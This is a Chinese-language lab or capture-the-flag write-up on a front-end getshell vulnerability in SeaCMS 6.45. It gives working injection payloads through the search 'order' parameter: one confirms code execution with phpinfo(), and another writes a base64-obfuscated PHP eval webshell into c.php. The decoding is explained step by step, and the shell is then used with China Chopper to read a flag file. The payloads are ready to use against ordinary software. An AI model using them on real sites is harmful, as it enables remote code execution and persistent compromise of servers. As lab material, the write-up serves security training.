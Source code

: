 # 海洋CMS 6.45版本前台getshell漏洞

## **【实验步骤】**

**步骤1：** 访问环境url，点击进行测试环境

**步骤2：** 对该CMS系统进行渗透测试找出存在的漏洞注入点（利用payload：`searchword=d&order=}{end if}{if:1)phpinfo();if(1}{end if}`）查看能否进行命令执行
![](imgs/1.png)

**步骤3：** 对注入点进行攻击，构造注入代码插入一句话木马，利用payload：

```url
searchword=d&order=}{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29;
```

**注：** 该语句主要代码为`fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29;`
URL解码后得到`fputs(fopen(base64_decode(Yy5waHA),w),base64_decode(PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x));`，
再进行base64解码得到：`fputs(fopen(c.php,w),<?php @eval($_POST[c]); ?>);`,即插入一句话木马到c.php文件中。

**步骤4：** 菜刀连接一句话木马，获取flag.txt中的flag信息。

**注：** 生成的c.php文件在当前目录下，菜刀连接c.php密码c进行连接

![](imgs/2.png)

执行结果：

查看flag.txt信息

![](imgs/3.png)
